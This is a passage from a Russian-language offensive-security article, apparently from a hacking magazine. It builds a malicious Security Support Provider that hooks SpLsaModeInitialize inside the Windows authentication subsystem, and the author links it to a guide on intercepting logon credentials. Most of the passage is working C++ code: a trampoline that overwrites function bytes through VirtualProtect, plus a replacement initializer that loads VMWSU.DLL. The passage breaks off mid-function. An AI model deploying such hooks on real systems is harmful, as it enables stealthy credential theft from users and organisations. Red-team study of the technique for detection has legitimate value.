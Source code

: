 Теперь, вооружившись примером малварного SSP с [Red Team Notes](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/intercepting-logon-credentials-via-custom-security-support-provider-and-authentication-package), а также честно позаимствовав шаблон для хукинга из проекта [ShellcodeFluctuation](https://github.com/mgeeky/ShellcodeFluctuation/blob/cb7a803493b9ce9fb5a5a3bc1c77773a60194ca4/ShellcodeFluctuation/main.cpp%23L178-L262)] (я уже использовал его в статье «[Флуктуация шелл-кода. Пишем инжектор для динамического шифрования полезной нагрузки в памяти](https://xakep.ru/2022/06/17/shellcode-fluctuation/)»), набросаем быстрый трамплин, который будет менять поведение `SpLsaModeInitialize`. Полный код доступен [у меня на GitHub](https://gist.github.com/snovvcrash/8e2e0e0b04014c61c81761e0bddbc6ea).

```cpp
bool fastTrampoline(bool installHook, BYTE* addressToHook, LPVOID jumpAddress, HookTrampolineBuffers* buffers)
{
    uint8_t trampoline[] = {
        0x49, 0xBA, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // mov r10, addr
        0x41, 0xFF, 0xE2                                            // jmp r10
    };

    uint64_t addr = (uint64_t)(jumpAddress);
    memcpy(&trampoline[2], &addr, sizeof(addr));

    DWORD dwSize = sizeof(trampoline);
    DWORD oldProt = 0;
    bool output = false;

    if (installHook)
    {
        if (buffers != NULL)
            memcpy(buffers->previousBytes, addressToHook, buffers->previousBytesSize);

        if (::VirtualProtect(addressToHook, dwSize, PAGE_EXECUTE_READWRITE, &oldProt))
        {
            memcpy(addressToHook, trampoline, dwSize);
            output = true;
        }
    }
    else
    {
        dwSize = buffers->originalBytesSize;

        if (::VirtualProtect(addressToHook, dwSize, PAGE_EXECUTE_READWRITE, &oldProt))
        {
            memcpy(addressToHook, buffers->originalBytes, dwSize);
            output = true;
        }
    }

    ::VirtualProtect(addressToHook, dwSize, oldProt, &oldProt);
    return output;
}

void NTAPI MySpLsaModeInitialize(ULONG LsaVersion, PULONG PackageVersion, PSECPKG_FUNCTION_TABLE* ppTables, PULONG pcTables)
{
    HookTrampolineBuffers buffers = { 0 };
    buffers.originalBytes = g_hookedSpLsaModeInitialize.spLsaModeInitializeStub;
    buffers.originalBytesSize = sizeof(g_hookedSpLsaModeInitialize.spLsaModeInitializeStub);

    HINSTANCE library = LoadLibraryA("VMWSU.DLL");
    FARPROC spLsaModeInitializeAddress = GetProcAddress(library, "SpLsaModeInitialize");

    fastTrampoline(false, (BYTE*)spLsaModeInitializeAddress, (void*)&MySpLsaModeInitialize, &buffers);
```

[//]: # (2023-09-27)